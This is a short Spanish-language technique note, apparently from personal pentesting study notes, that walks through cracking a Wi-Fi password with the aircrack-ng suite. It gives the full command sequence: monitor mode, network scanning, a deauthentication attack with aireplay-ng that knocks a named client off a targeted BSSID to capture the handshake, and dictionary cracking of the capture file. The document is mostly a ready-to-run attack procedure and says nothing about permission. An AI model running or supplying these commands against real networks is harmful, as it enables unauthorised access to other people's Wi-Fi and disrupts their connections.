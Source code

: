 #tecnicas 
Lo primero será instalar aircrack-ng:
![[Pasted image 20240612232539.png]]

Y ahora es necesario activar el modo monitor en nuestra interfaz de red, fijándonos en el nombre de la interfaz wifi:
![[Pasted image 20240612232544.png]]

Ahora ejecutamos este comando para convertir la antena wifi en modo monitor:
```bash
airmon-ng start wlp1s0
```

![[Pasted image 20240612232551.png]]
Y ahora si ejecutamos un ifconfig veremos como la interfaz wifi ha cambiado:
![[Pasted image 20240612232601.png]]

Y ahora haremos un escaneo de las redes disponibles con este comando:
```bash
airodump-ng wlp1s0mon
```

![[Pasted image 20240612232611.png]]

![[Pasted image 20240612232617.png]]

Vamos a elegir el wifi llamado Red: 
![[Pasted image 20240612232623.png]]

Y ahora con su BSSID vamos a listar los devices que están conectados a esta red:
```bash
airodump-ng -c 1 --bssid 2C:99:24:69:4F:D9 -w captura wlp1s0mon
```
![[Pasted image 20240612232634.png]]
![[Pasted image 20240612232638.png]]

Y ahora es cuando tenemos que obtener el handshake; y para ello tenemos que generar tráfico al mismo tiempo, por lo que desde otra ventana vamos a generar tráfico:
```bash
# Con el -a cogemos el nombre del BSSID y con -c cogemos la estación.
aireplay-ng -0 9 -a 2C:99:24:69:4F:D9 -c 3E:AF:E4:72:E6:A0 wlp1s0mon 
```

![[Pasted image 20240612232646.png]]
Y una vez lanzado esto, ya tenemos el handshake:
![[Pasted image 20240612232657.png]]

Ahora veremos que tenemos una serie de archivos en el actual directorio, que los usaremos más adelante:
![[Pasted image 20240612232705.png]]

Una vez tenemos esto, solo necesitamos ejecutar este otro comando pasándole el handshake, seleccionando el fichero cap y un diccionario:
```bash
aircrack-ng -b 2C:99:24:69:4F:D9 -w diccionario.txt captura-02.cap
```
![[Pasted image 20240612232807.png]]

Y vemos que nos encuentra la contraseña gracias a que se encontraba dentro del diccionario:
![[Pasted image 20240612232812.png]]

Por último, para restablecer nuestra antena y quitar el modo monitor, lo haríamos de la siguiente forma:
```bash
sudo airmon-ng stop wlan0 # O el nombre de la interfaz que corresponda.
```